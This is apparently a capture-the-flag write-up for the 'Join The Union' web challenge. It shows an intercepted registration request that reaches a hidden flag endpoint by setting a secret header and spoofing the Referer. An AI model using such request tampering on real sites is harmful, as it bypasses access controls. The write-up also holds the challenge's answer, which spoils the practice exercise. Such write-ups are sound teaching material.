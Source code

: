 # Join The Union

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/3c1fd080-3794-4f17-a84d-c587a2f7de29)

## Solution

For this challange its quite difficult for me but after I attempt many times I gain the flag

Soo first what I need its to intercept the register form

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/d19cfb0d-4d9f-4e69-a930-b9aefc7999f6)

From here we got secret directory soo I try to go there first time but error appear soo I need to modified my request 😊 so after I fix I got this 

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/66afc040-e204-4cd0-b19a-845a759691fc)

Basically at the login form it has appear /path so from that we modify it to request to get the flag

```
POST /g3t_53cR3t_fl4g HTTP/1.1
Host: curtinctfmy-1946797319.ap-southeast-2.elb.amazonaws.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://curtinctfmy-1946797319.ap-southeast-2.elb.amazonaws.com
Connection: close
53c43t: deeca476f2209104fe972a5ae37fd7bb5ad0ae30 (remove cookie and set this)
Referer: https://www.hackerman.play (change the refferer)
Upgrade-Insecure-Requests: 1

email=test%40gmail.co&psw=test&psw-repeat=test&remember=on
```

## Flag
